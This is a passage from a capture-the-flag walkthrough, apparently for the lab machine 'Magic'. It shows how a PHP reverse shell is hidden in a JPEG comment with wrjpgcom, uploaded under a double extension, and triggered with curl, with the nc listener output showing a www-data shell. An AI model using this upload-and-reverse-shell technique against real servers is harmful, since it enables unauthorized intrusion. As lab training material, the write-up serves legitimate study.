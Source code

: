 ### Creating The Malicious Image

With `wrjpgcom`, we can insert a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell) payload into the comment field of the jpeg file.

`wrjpgcom -comment "$(cat sorryfortheshell.php)" 5.jpeg > sorryforthis.php.jpeg`

* The `$()` does a command substitution in bash. Here, it executes the command `cat sorryfortheshell.php` and replaces the `$()` expression with the stdout of the command.

* `5.jpeg` is just an image I downloaded earlier from the website.

### Uploading The Malicious Image

With the upload form we created, we can upload `sorryforthis.php.jpeg` to the Magic machine.

As the returned response is a redirection, we can only see the actual response text if we proxy the request through Burp.

![upload confirmation](./uploaded.jpg)

### Triggering The Payload

We can trigger the a reverse shell by requesting for the payload file we uploaded.

`curl http://10.10.10.185/images/uploads/sorryforthis.php.jpeg`

And we get a reverse shell for `www-data`.

```
# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.185] 51678
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 22:07:49 up  2:31,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
